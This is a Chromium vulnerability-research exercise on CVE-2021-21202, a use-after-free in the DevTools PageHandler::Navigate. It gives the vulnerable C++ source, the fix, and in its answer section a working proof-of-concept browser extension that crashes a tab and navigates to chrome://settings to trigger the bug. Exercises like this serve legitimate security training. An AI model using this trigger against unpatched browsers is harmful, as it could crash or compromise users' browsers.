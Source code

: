 # Exercise 5

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21202
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1188889

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard b84b5d13d0d013ad4a8c90f1ba4cd8509f9885bf
```



### Related code

content/browser/devtools/protocol/page_handler.cc

<!-- content/browser/devtools/render_frame_devtools_agent_host.cc -->
tips: [`Page.navigate`](https://chromedevtools.github.io/devtools-protocol/tot/Page/#method-navigate)


### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  This vulnerability does not seem to be exploitable, so we briefly end this part.
  >One of the methods available via the Chrome DevTools protocol is Page.navigate. That method allows the caller to navigate the target page to a specified URL.
  >
  >When an extension uses that method to navigate a crashed page to a restricted URL, the debugging session will be detached. However, that occurs in the middle of PageHandler::Navigate, resulting in the PageHandler object being deleted midway through the method.

  >The reason that the session is detached is that the URL being navigated to is restricted (and therefore can't be debugged by an extension).
  >
  >That results in the PageHandler object being deleted (along with the other domain handlers) once LoadURLWithParams has finished executing.
  
  ```c++
void PageHandler::Navigate(const std::string& url,
                           Maybe<std::string> referrer,
                           Maybe<std::string> maybe_transition_type,
                           Maybe<std::string> frame_id,
                           Maybe<std::string> referrer_policy,
                           std::unique_ptr<NavigateCallback> callback) {
  GURL gurl(url);
  if (!gurl.is_valid()) {
    callback->sendFailure(
        Response::ServerError("Cannot navigate to invalid URL"));
    return;
  }

  if (!host_) {
    callback->sendFailure(Response::InternalError());
    return;
  }

  ui::PageTransition type;
  std::string transition_type =
      maybe_transition_type.fromMaybe(Page::TransitionTypeEnum::Typed);
  if (transition_type == Page::TransitionTypeEnum::Link)
    type = ui::PAGE_TRANSITION_LINK;
  else if (transition_type == Page::TransitionTypeEnum::Typed)
    type = ui::PAGE_TRANSITION_TYPED;
  else if (transition_type == Page::TransitionTypeEnum::Address_bar)
    type = ui::PAGE_TRANSITION_FROM_ADDRESS_BAR;
  else if (transition_type == Page::TransitionTypeEnum::Auto_bookmark)
    type = ui::PAGE_TRANSITION_AUTO_BOOKMARK;
  else if (transition_type == Page::TransitionTypeEnum::Auto_subframe)
    type = ui::PAGE_TRANSITION_AUTO_SUBFRAME;
  else if (transition_type == Page::TransitionTypeEnum::Manual_subframe)
    type = ui::PAGE_TRANSITION_MANUAL_SUBFRAME;
  else if (transition_type == Page::TransitionTypeEnum::Generated)
    type = ui::PAGE_TRANSITION_GENERATED;
  else if (transition_type == Page::TransitionTypeEnum::Auto_toplevel)
    type = ui::PAGE_TRANSITION_AUTO_TOPLEVEL;
  else if (transition_type == Page::TransitionTypeEnum::Form_submit)
    type = ui::PAGE_TRANSITION_FORM_SUBMIT;
  else if (transition_type == Page::TransitionTypeEnum::Reload)
    type = ui::PAGE_TRANSITION_RELOAD;
  else if (transition_type == Page::TransitionTypeEnum::Keyword)
    type = ui::PAGE_TRANSITION_KEYWORD;
  else if (transition_type == Page::TransitionTypeEnum::Keyword_generated)
    type = ui::PAGE_TRANSITION_KEYWORD_GENERATED;
  else
    type = ui::PAGE_TRANSITION_TYPED;

  std::string out_frame_id = frame_id.fromMaybe(
      host_->frame_tree_node()->devtools_frame_token().ToString());
  FrameTreeNode* frame_tree_node = FrameTreeNodeFromDevToolsFrameToken(
      host_->frame_tree_node(), out_frame_id);

  if (!frame_tree_node) {
    callback->sendFailure(
        Response::ServerError("No frame with given id found"));
    return;
  }

  NavigationController::LoadURLParams params(gurl);
  network::mojom::ReferrerPolicy policy =
      ParsePolicyFromString(referrer_policy.fromMaybe(""));
  params.referrer = Referrer(GURL(referrer.fromMaybe("")), policy);
  params.transition_type = type;
  params.frame_tree_node_id = frame_tree_node->frame_tree_node_id();
  frame_tree_node->navigator().controller().LoadURLWithParams(params);   [1]

  if (frame_tree_node->navigation_request()) {
    navigate_callbacks_[frame_tree_node->navigation_request()
                            ->devtools_navigation_token()] =
        std::move(callback);
  } else {
    callback->sendSuccess(out_frame_id, Maybe<std::string>(),
                          Maybe<std::string>());
  }
}
  ```
  And patch add check `weak_factory_` after `LoadURLWithParams`

  `base::WeakPtrFactory<PageHandler> weak_factory_{this};`

  **Poc**

  This poc is in the form of a `extensions`, you can get guidence from [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1188889)
  ```js
let tabUpdatedListener = null;

chrome.tabs.onUpdated.addListener(function (tabId, changeInfo, tab) {
    if (tabUpdatedListener) {
        tabUpdatedListener(tabId, changeInfo, tab);
    }
});

let debugEventListener = null;

chrome.debugger.onEvent.addListener(function (source, method, params) {
    if (debugEventListener) {
        debugEventListener(source, method, params);
    }
});

startProcess();

function startProcess() {
    let targetTab = null;

    chrome.tabs.create({url: "https://www.google.com/"}, function (tab) {
        targetTab = tab;
    });

    tabUpdatedListener = function (tabId, changeInfo, updatedTab) {
        if (targetTab
            && tabId === targetTab.id
            && changeInfo.status === "complete") {
            tabUpdatedListener = null;

            onTargetTabLoaded(targetTab);
        }
    };
}

function onTargetTabLoaded(tab) {
    chrome.debugger.attach({tabId: tab.id}, "1.3", function () {
        onDebuggerAttachedToTargetTab(tab);
    });
}

function onDebuggerAttachedToTargetTab(tab) {
    chrome.debugger.sendCommand({tabId: tab.id}, "Page.crash", {});

    debugEventListener = function (source, method, params) {
        if (method === "Inspector.targetCrashed") {
            debugEventListener = null;

            chrome.debugger.sendCommand({tabId: tab.id}, "Page.navigate",
                {url: "chrome://settings/"});
        }
    };
}
  ```
</details>

--------
